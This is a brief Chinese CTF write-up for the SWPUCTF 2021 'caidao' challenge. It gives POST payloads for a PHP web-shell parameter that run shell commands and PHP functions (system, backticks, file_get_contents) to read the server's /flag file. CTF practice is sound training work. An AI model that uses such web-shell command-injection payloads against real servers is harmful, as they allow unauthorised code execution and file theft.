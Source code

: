 # [SWPUCTF 2021 新生赛]caidao

## 方法一

![image-20250731181529825](./assets/image-20250731181529825.png)

```
post传参
wllm=echo `cat /flag`
#cat也可以为tac（反过来输出）
当然也可以
wllm=system("cat /flag");
同样也有
wllm=var_dump(file_get_contents("/flag"));
#var_dump()函数用于输出变量的相关信息（前面介绍过）
file_get_contents()函数用于读取文件
```
